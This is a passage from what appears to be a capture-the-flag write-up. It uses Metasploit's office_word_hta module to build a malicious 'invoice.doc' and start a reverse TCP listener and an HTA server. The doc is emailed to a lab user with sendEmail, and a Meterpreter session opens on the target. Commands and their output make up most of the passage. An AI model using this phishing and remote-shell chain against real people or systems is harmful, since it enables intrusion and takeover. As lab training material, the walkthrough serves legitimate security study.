     
    Exploit target:
    
       Id  Name
       --  ----
       0   Microsoft Office Word
    
    
    msf5 exploit(windows/fileformat/office_word_hta) > run
    [*] Exploit running as background job 3.
    [*] Exploit completed, but no session was created.
    
    [*] Started reverse TCP handler on 10.10.14.3:443
    [+] invoice.doc stored at /root/.msf4/local/invoice.doc
    [*] Using URL: http://10.10.14.3:80/default.hta
    [*] Server started.
    

At this point, metasploit has created the document for me, and started two
listeners, one on 80 to server the HTA file, and one on 443 to get a callback
from meterpreter. It’s my job to get the rtf document to the target.

I’ll send the email the same as in the manual way, but this time with the
Metasploit-generated document:

    
    
    root@kali# sendEmail -f 0xdf@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a /root/.msf4/local/invoice.doc -s 10.10.10.77 -v
    Nov 05 12:06:20 kali sendEmail[20127]: DEBUG => Connecting to 10.10.10.77:25
    Nov 05 12:06:20 kali sendEmail[20127]: DEBUG => My IP address is: 10.10.14.3
    Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     220 Mail Service ready
    Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending:         EHLO kali
    Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     250-REEL, 250-SIZE 20480000, 250-AUTH LOGIN PLAIN, 250 HELP
    Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending:         MAIL FROM:<0xdf@megabank.com>
    Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     250 OK
    Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending:         RCPT TO:<nico@megabank.com>
    Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     250 OK
    Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending:         DATA
    Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     354 OK, send.
    Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending message body
    Nov 05 12:06:20 kali sendEmail[20127]: Setting content-type: text/plain
    Nov 05 12:06:20 kali sendEmail[20127]: DEBUG => Sending the attachment [/root/.msf4/local/invoice.doc]
    Nov 05 12:06:27 kali sendEmail[20127]: SUCCESS => Received:     250 Queued (6.562 seconds)
    Nov 05 12:06:27 kali sendEmail[20127]: Email was sent successfully!  From: <0xdf@megabank.com> To: <nico@megabank.com> Subject: [Invoice Attached] Attachment(s): [invoice.doc] Server: [10.10.10.77:25]
    

A minute later, in the metasploit window:

    
    
    [*] Sending stage (179779 bytes) to 10.10.10.77
    [*] Meterpreter session 1 opened (10.10.14.3:443 -> 10.10.10.77:53907) at 2018-11-05 12:06:40 -0500
    msf5 exploit(windows/fileformat/office_word_hta) > sessions -i 1
    [*] Starting interaction with 1...
    